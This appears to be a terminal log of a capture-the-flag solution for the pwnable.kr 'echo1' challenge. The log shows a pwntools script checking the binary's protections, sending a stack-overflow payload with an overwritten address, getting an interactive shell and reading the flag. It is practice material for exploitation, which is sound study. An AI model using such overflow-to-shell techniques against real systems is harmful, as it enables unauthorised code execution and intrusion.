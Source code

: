 root@kali:~/Desktop/Pwn/Pwnable.kr/echo# python echo1.py 
[+] Opening connection to pwnable.kr on port 9010: Done
[*] '/root/Desktop/Pwn/Pwnable.kr/echo/echo1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
id_address: 0x6020a0
[*] Switching to interactive mode
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xa0 `
goodbye \xff�  ls
echo1
flag
log
super.pl
$ cat flag
H4d_som3_fun_w1th_ech0_ov3rfl0w
$  
